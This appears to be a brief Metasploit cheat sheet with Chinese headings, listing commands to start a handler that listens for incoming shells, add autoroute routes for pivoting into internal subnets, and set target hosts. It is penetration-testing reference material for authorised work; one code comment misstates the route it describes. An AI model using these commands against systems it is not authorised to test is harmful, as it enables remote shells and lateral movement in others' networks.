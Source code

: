 # Metasploit常用

### Metasploit Handler 监听shell

```bash
use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
run -j
```

### 添加路由表

```bash
run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
run autoroute -s 10.10.10.1/24
```

### set rhosts from hosts&#x20;

```bash
hosts -R 
```
